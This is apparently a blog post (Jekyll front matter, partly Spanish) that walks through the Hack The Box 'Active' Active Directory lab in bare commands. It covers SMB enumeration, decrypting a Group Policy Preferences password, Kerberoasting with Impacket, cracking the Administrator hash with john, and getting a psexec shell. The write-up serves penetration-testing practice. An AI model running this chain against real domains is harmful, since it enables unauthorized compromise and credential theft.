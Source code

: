```yaml
---
# multilingual page pair id, this must pair with translations of this page. (This name must be unique)
lng_pair: id_active
title: "Active"

# post specific
# if not specified, .name will be used from _data/owner/[language].yml
author: Bast1ant1c
# multiple category is not supported
category: Easy
# multiple tag entries are possible
tags: [AD, pentesting]
# thumbnail image for post
img: ":main_photo.jpg"
# disable comments on this page
#comments_disable: true

# publish date
date: 2022-12-27

# seo
# if not specified, date will be used.
#meta_modify_date: 2022-01-01 10:04:30 +0900
# check the meta_common_description in _data/owner/[language].yml
meta_description: ""

# optional
# please use the "image_viewer_on" below to enable image viewer for individual pages or posts (_posts/ or [language]/_posts folders).
# image viewer can be enabled or disabled for all posts using the "image_viewer_posts: true" setting in _data/conf/main.yml.
#image_viewer_on: true
# please use the "image_lazy_loader_on" below to enable image lazy loader for individual pages or posts (_posts/ or [language]/_posts folders).
# image lazy loader can be enabled or disabled for all posts using the "image_lazy_loader_posts: true" setting in _data/conf/main.yml.
#image_lazy_loader_on: true
# exclude from on site search
#on_site_search_exclude: true
# exclude from search engines
#search_engine_exclude: true
# to disable this page, simply set published: false or delete this file
#published: false
---
```

<!-- outline-start -->

Hola, esta es la máquina Active! Let's hack!

<!-- outline-end -->

## RECON
```python
ping -c 1 <IP>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oG ports
extractports <ports>
nmap -sCV <PORTS> -oG services
```

## AD DOMAIN DETECTION
```bash
crackmapexec smb <IP>
sudo su
nvim /etc/hosts
<IP>	<DOMAIN>
```

## SMB ENUM
```bash
smbclient -L <IP> -N
crackmapexec smb <IP> --shares
smbmap -H <IP>
smbmap -H <IP> -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/
smbmap -H <IP> --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
mv <IP>-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml groups.xml
```

## DECRYPT GROUPS.XML PASSWORD
```bash
gpp-decrypt '<CPASSWORD>'
```

## GRANTED SMB ACCESS SVC_TGS USER
```bash
crackmapexec smb <IP> -u 'SVC_TGS' -p '<PASSWORD>'
crackmapexec smb <IP> -u 'SVC_TGS' -p '<PASSWORD>' --shares
smbmap -H <IP> -u 'SVC_TGS' -p '<PASSWORD>' -r Users/SVC_TGS/Desktop/user.txt
```

## FLAG USER.TXT
```bash
smbmap -H <IP> -u 'SVC_TGS' -p '<PASSWORD>' --download Users/SVC_TGS/Desktop/user.txt
mv <IP>-Users_SVC_TGS_Desktop_user.txt user.txt
cat user.txt
```

## AD ENUM RPCCLIENT
```bash
rpcclient -U "SVC_TGS%<PASSWORD>" <IP>
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'enumdomusers'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'enumdomgroups'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'querygroupmem 0x200'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'queryuser 0x1f4'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'querydispinfo'
echo SVC_TGS > users.txt
```

## AD TGT GETNPUSERS.PY
```bash
GetNPUsers.py active.htb/ --no-pass -usersfile users.txt
```

## AD USER ENUM KERBRUTE
```bash
kerbrute userenum --dc <IP> -d active.htb /usr/share/Seclists/Usernames/Names/names.txt
```

## ADJUST DATE & TIME WITH AD (OPTIONAL)
```bash
ntpdate <IP>
```

## AD TGS GETUSERSPN.PY
```bash
GetUserSPN.py active.htb/SVC_TGS:<PASSWORD> -request
```

## BRUTEFORCE ADMINISTRATOR HASH
```bash
echo '<HASH>' > hash
john -w:/usr/share/wordlists/rockyou.txt hash
```

## GRANTED ACCESS ADMINISTRATOR USER
```bash
crackmapexec smb <IP> -u 'Administrator' -p '<PASSWORD>'
psexec.py 'active.htb/Administrator:<PASSWORD>@<IP>' cmd.exe
whoami
```

## FLAG ROOT.TXT
```bash
type C:\Users\Administrator\Desktop\root.txt
```
